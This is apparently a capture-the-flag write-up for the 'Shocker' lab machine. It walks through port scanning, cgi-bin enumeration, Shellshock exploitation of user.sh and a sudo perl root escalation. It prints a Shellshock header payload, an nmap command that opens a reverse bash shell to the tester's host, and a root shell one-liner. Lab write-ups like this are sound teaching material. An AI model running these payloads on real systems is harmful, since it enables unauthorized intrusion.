

# Shocker

## Machine Info


## Recon

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.16 (96%), Linux 3.18 (96%), Linux 3.2 - 4.9 (96%), Linux 4.2 (96%), Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 4.4 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- attack vector: 80 http, 2222 ssh (not recommended)
- find Ubuntu version by apache version or openssh version


## Foothold

### 80 - http - cgi

- 80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))


- nothing found inside image

```
$ exiftool bug.jpg
ExifTool Version Number         : 12.67
File Name                       : bug.jpg
Directory                       : .
File Size                       : 37 kB
File Modification Date/Time     : 2014:09:26 02:16:14+08:00
File Access Date/Time           : 2023:11:30 22:50:44+08:00
File Inode Change Date/Time     : 2023:11:30 22:50:38+08:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Comment                         : CREATOR: gd-jpeg v1.0 (using IJG JPEG v62), quality = 90.
Image Width                     : 820
Image Height                    : 420
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 820x420
Megapixels                      : 0.344
```

- subdomain -> nothing [x]

- path: `dirb $IP`

```
+ http://10.10.10.56/cgi-bin/ (CODE:403|SIZE:294)
+ http://10.10.10.56/index.html (CODE:200|SIZE:137)
+ http://10.10.10.56/server-status (CODE:403|SIZE:299)
```

- enum files inside **cig-bin**, `gobuster dir -u $URL/cgi-bin/ -w /usr/share/dirb/wordlists/common.txt -x php,sh,py,pl -t 50`



- visit this url in browser get a **user.sh** file


- since this is an output of `uptime` -> user.sh can be executed by apache server -> Ubuntu version **Xenial**, bash version might be < 4.3 -> **shellshock**

### cgi - shellshock

- nmap script scanning -> yes


### shellshock payload explanation

**http request header:**

```
GET /cgi-bin/user.sh HTTP/1.1
Host: shocker.htb
Connection: close
Cookie: () {:;}; echo; /bin/bash --version
```

### get shell method 1

- `nmap -sV -p80 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd='echo Content-Type: text/html; echo; /bin/bash -c "bash -i >& /dev/tcp/$LOCAL 0>&1"' $IP`


### get shell method 2

[PayloadsAllTheThings/CVE Exploits/Shellshock CVE-2014-6271.py at master · swisskyrepo/PayloadsAllTheThings (github.com)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CVE Exploits/Shellshock CVE-2014-6271.py)


## Privilege Escalation


- `sudo -l` -> `sudo perl -e 'exec "/bin/sh";'`


## Exploit Chain

recon -> cgi dir -> cgi script -> shellshock -> sudo -l -> priv esca, root
